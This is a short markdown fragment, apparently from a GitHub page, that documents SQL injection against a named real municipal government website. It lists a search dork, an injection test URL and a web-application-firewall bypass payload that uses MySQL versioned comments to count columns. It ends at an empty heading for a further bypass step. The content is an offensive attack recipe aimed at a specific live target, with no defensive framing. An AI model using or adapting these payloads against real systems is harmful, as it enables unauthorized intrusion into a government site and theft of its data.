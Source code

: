 ### Dork

- `https[:]//www[.]puertomorelos[.]gob[.]mx/detys[.]php?id=11`

### Injection Vulnerability

- `https://www.puertomorelos.gob.mx/detys.php?id=11--+-`

### Count WAF Bypass

- `https://www.puertomorelos.gob.mx/detys.php?id=11 /*!50000ORDER*//**//*!50000BY*/ 14 --+-`

### Vulnerable Column WAF bypass

- 
